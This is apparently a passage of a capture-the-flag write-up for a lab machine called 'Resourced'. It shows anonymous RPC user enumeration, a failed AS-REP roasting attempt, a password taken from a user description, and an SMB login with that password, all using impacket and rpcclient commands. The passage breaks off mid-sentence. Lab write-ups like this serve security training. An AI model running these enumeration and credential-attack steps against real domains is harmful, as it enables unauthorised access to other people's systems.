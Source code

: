 ## RPC user enumeration (succeded)

`rpcclient 192.168.191.175 -U "" -N`

`enumdomusers`

![1465640549d4f6340ed6847bc378dc0f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/1465640549d4f6340ed6847bc378dc0f.png?raw=true)

This reveals all the active users in the domain. Easily parse and then add it to a users.txt file i use the following command:

`rpcclient 192.168.191.175 -U '' -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt`

## ASPREProast (failed)

Having a list of possible valid users, I try an ASPREProast attack.

`python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py resourced.local/ -u users.txt -dc-ip 192.168.191.175`

![a8e79b0c98e51bec72361e75ff1b42bc.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/a8e79b0c98e51bec72361e75ff1b42bc.png?raw=true)

# Getting a shell

## Back to RPC enumeration (found password)

rpcclient 192.168.191.175 -U "" -N

querydispinfo

![07fe39ddcc80c25b66a1663011a28991.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/07fe39ddcc80c25b66a1663011a28991.png?raw=true)

This shows the "V.ventz" user's description. Here a password is found "HotelCalifornia194!"

Check user validation with crackmapexec

![15a27d63b9c33997f4ebf4c77322b831.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/15a27d63b9c33997f4ebf4c77322b831.png?raw=true)

![80a89501473ace0b5f32bd0b705b27a9.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/80a89501473ace0b5f32bd0b705b27a9.png?raw=true)

## SMB Connection

If I try to connect through SMB i get "Error NT_STATUS_RESOURCE_NAME_NOT_FOUND" error

![5f01bc712a0ad54932015f1a5553a69f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/5f01bc712a0ad54932015f1a5553a69f.png?raw=true)

I try with impacket's smbclient:

`impacket-smbclient V.Ventz:'HotelCalifornia194!'@resourced.local`

In "Password Audit" folder i find those 2 files:
